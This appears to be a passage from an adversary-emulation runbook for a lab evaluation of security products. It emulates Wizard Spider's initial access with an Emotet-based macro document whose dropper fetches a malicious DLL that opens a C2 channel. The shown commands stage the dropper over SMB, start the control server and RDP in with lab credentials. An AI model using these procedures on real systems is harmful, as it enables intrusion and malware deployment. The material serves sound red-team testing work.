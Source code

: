 
## Test 1 (steps 1-3)

### Step 1 - Initial Compromise

:microphone: `Voice Track:`

Step1 emulates Wizard Spider gaining initial access using a Microsoft Word document.

The word document contains [obfuscated VBA macros](../../Resources/Emotet_Dropper) that downloads and executes a malicious DLL.

The [malicious DLL](../../Resources/Emotet) establishes a C2 session with the adversary control server.

The malicious DLL is based on Emotet.

```
Compromised user info:

User:	judy@oz.local

System: 10.0.0.7 / dorothy

C2:	192.168.0.4:80 HTTP; traffic is AES-encrypted with symmetric key and base64 encoded
```

*Note: the document is pre-positioned in the environment.*

*We do not emulate sending the document to target, as our focus is evaluating their product against post-initial-access TTPs.*

---

#### ☣️ Procedures

Upload the Emotet-dropper document to Dorothy's desktop:

```bash
smbclient -U 'oz\judy' //10.0.0.7/C$ -c "put wizard_spider/Resources/Emotet_Dropper/ChristmasCard.docm Users/judy/Desktop\ChristmasCard.docm;" "Passw0rd!"
```

Start the control server from your terminator terminal.

```bash
cd ~/wizard_spider/Resources/control_server
sudo ./controlServer
```

Open a new terminal tab (ctrl-shift-T); double click the terminal tab and rename it to "RDP to Dorothy"

RDP into Dorothy / 10.0.0.7 as user Judy:

```sh
xfreerdp +clipboard /u:oz\\judy /p:"Passw0rd!" /v:10.0.0.7
```
